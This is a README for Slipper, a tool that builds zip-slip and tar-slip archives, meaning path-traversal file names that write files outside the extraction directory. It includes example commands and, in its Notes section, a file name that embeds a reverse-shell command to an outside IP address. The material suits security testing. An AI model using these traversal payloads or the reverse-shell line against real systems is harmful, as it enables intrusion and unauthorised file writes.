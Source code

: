 
# Slipper - a tool to build zip and tar slip payloads 

Build zip and tar slip payloads (directory traversals for file writes). Details in the [snyk github](https://github.com/snyk/zip-slip-vulnerability) for known vulnerable items.


```

usage: slipper.py [-h]
                  [-p filename contents]
                  (-z ZIP_FILENAME | -t TAR_FILENAME)
                  [-i INPUT_FILENAME]

options:
  -h, --help         show this help
                     message and exit
  -p filename contents, --payload filename contents
                     add filename with
                     contents to archive
  -z ZIP_FILENAME, --zip_filename ZIP_FILENAME
                     create a zip with
                     given name
  -t TAR_FILENAME, --tar_filename TAR_FILENAME
                     create a tar with
                     given name
  -i INPUT_FILENAME, --input_filename INPUT_FILENAME
                     create a zip or tar
                     with the given
                     archive as a
                     starting point

```
## Notes

* The argument `-p` can be repeated to add multiple `filename, content` pairs to each archive type.
* Filenames in archives can contain characters that are typically problematic on the filesystem, e.g.:
```
/conf/`sh -i >& /dev/udp/123.123.123.123/1337 0>&1`
```


# Examples
## Zip 

Supply the filename with the `-z` flag:

`python slipper.py -z foo.zip -p '../../../../tmp/file.txt' 'text in /tmp/file.txt' -p 'required.xml' '...'`

## Zip append

Supply the filename with the `-z` flag as above, and a starting point tarball with `-i`:

```
python slipper.py -i input.zip -z tampered.zip -p 'new/file.txt' 'content'
```

## Tar 

Supply the filename with the `-t` flag:

`python slipper.py -t some.tar -p '../../../../tmp/file.txt' 'text in /tmp/file.txt' `

## Tar append

Supply the filename with the `-t` flag as above, and a starting point tarball with `-i`:

```
python slipper.py -i input.tar -t tampered.tar -p 'new/file.txt' 'content'
```
